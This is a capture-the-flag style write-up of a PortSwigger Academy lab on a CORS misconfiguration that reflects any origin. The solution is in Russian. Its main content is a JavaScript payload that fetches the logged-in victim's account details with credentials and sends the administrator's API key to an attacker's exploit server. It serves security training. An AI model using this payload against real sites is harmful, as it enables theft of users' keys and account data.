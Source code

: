 # CORS vulnerability with basic origin reflection
APPRENTICE

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter

## Решение
На странице "My account" отображается ключ "API Key", который загружается с сервера клиентским запросом из скрипта. Скопирую содержимое скрипта и немного подредактирую:
1. Заменю URL на абсолютный
2. Добавлю отправку запроса с эксплойт-серверу с ключом в query-параметрах
```
<script>
    fetch('https://0aee002703909e298619cf6800b900ce.web-security-academy.net/accountDetails', {
        credentials:'include'
    })
        .then(r => r.json())
        .then(j => {
            fetch(`https://exploit-0a3e0014032a9eed8642cedd01c7000c.exploit-server.net/exploit?x=${j.apikey}`)
        })
</script>
```
Deliver exploit to victim -> Access log. В логах будет ключ. Остаётся отправить его на проверку через "Submit solution". Задание выполнено.
